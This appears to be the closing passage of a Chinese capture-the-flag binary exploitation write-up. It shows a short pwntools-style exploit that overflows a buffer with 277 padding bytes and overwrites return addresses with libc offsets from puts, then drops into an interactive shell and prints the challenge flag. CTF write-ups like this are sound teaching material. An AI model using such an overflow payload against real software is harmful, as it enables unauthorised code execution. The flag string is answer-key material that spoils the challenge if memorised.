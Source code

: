 ```python

poc = 'A'*277+p32(puts_addr+off)+'AAAA'+p32(puts_addr+off2)
pwning(2)

p.interactive()
```

最后 flag：
$$
flag\{f3b92d795c9ee0725c160680acd084d9\}
$$


![](https://wx3.sinaimg.cn/mw690/6b1e58d5gy1fs3393pkfbj20u012345g.jpg)

